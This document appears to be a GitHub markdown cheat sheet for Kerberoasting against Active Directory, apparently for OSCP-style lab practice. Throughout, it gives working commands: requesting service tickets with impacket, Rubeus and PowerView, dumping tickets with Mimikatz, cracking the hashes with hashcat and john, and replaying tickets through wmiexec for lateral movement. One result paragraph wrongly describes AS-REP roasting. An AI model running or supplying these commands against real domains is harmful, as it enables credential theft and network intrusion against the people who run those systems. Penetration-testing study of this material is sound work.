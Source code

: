 # Kerberoasting
This attack targets [Service Principal Names (SPN)](https://docs.microsoft.com/en-us/windows/win32/ad/service-principal-names) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running. Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as `NT AUTHORITY\LOCAL SERVICE`.

![AD Herbros002](https://github.com/user-attachments/assets/f7ed51a4-9646-4ccc-a4e7-f302842ce711)

---

## **Perform Kerberoasting using `Kali`:**

**Command Syntax**: Use the following command to request the **TGS** (Ticket Granting Server) and capture the TGS-REP hash:
#### Kerberoast without preauthentication   
```bash
impacket-GetUserSPNs -request -dc-ip <DomainController_IP>  -outputfile <output_file> <Domain/User>
```
#### with a password
```
GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'
```
#### Using a Hash from a user 
```
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'
```
Example
```
GetUserSPNs.py -outputfile kerberoastables.txt -hashes 'aad3b435b51404eeaad3b435b51404ee:e728ecbadfb02f51ce8eed753f3ff3fd' -dc-ip 10.10.94.140 'oscp.exam/celia.almeda'
```
- **-request** to obtain the TGS
Example:
``` shell
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.50 corp.com/ahmed
```
HashShape
```
$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$9b161bcb9f98f19b.......a85ee4
```

2. **Result**: This command will send AS-REQ requests to the domain controller and retrieve the AS-REP hashes (if preauthentication is disabled for the user accounts). The hashes are saved in [[Hashcat]] format in the output file (`hashes.asreproast`).
``` shell
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
**Solving Error**
`Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`
![image](https://github.com/user-attachments/assets/ac12a70c-6d6f-47ab-baca-79415d7c39f6)
```shell
sudo apt install rdate
sudo timedatectl set-ntp off
sudo rdate -n <Domain-IP>
```
Then Run Command again and will work

---

## **Perform Kerberoasting on `Windows` (joined domain):**
### Using built-in [setspn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11)) binary to Enumerating SPNs with setspn.exe
```powershell
setspn.exe -Q */*
```
![image](https://github.com/user-attachments/assets/f526d6e6-2615-4333-b64c-9e62656cf9bf)
#### Targeting a Single User
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
![image](https://github.com/user-attachments/assets/8c61059a-b2e3-45fe-a1cc-c0dcbcef05dc)

### Using use [Rubeus]([https://github.com/GhostPack/Rubeus](https://github.com/MGamalCYSEC/Active-Directory-Enumeration-and-Attacks/tree/main/Tools/GhostPack-Compiled%20Binaries)) 

``` powershell
.\Rubeus.exe kerberoast /nowrap
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast /nowrap
```
### Using `PowerView` to Extract TGS Tickets

``` powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```
`Results`
```powershell-session
samaccountname
--------------
krbtgt
userb
```
### Using PowerView to Target a Specific User
```powershell
Get-DomainUser -Identity userb | Get-DomainSPNTicket -Format Hashcat
```

**Remove all spaces and lines in a file:**
``` shell
tr -d '[:space:]' < input_file > output_file
```
**Exporting All Tickets to a CSV File**
```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\domain_tgs.csv -NoTypeInformation
```
---

### Extracting Tickets from Memory with Mimikatz
``` mimikatz
mimikatz # base64 /out:true
mimikatz # kerberos::list /export 
```
If we extract only `.kirbi` files and this will happen if we run `mimikatz` automatically without `base64 /out:true` 
##### ---> On kali <---
#### Extract Hashes from `.kirbi` Tickets
``` shell
python3 kirbi2john.py ticket.kirbi > hash.txt
john hash.txt --wordlist=/path/to/wordlist.txt
```
**With Hashcat:** Use Kerberos Ticket Hash mode `13100`:
``` shell
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
---

### Replay Tickets with Impacket
##### 1. Convert .kirbi to CCache
``` shell
python3 /usr/share/doc/python3-impacket/examples/ticketConverter.py ticket.kirbi ticket.ccache
```
##### 2. Set Environment Variable for Replay 
If you plan to use the ticket for further lateral movement or pass-the-ticket attacks, set the `KRB5CCNAME` environment variable:
``` shell
export KRB5CCNAME=/path/to/ticket.ccache
```
If you intend to replay the `.kirbi` ticket instead of cracking it, Impacket’s `psexec.py` or `wmiexec.py` can be used.
``` shell
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py -k -no-pass DOMAIN/USERNAME@TARGET
```
- The `-k` flag uses the Kerberos ticket.


### On BloodHound we notice it as:

![image](https://github.com/user-attachments/assets/1d4eab33-897d-44a5-b4d3-68aee8275292)
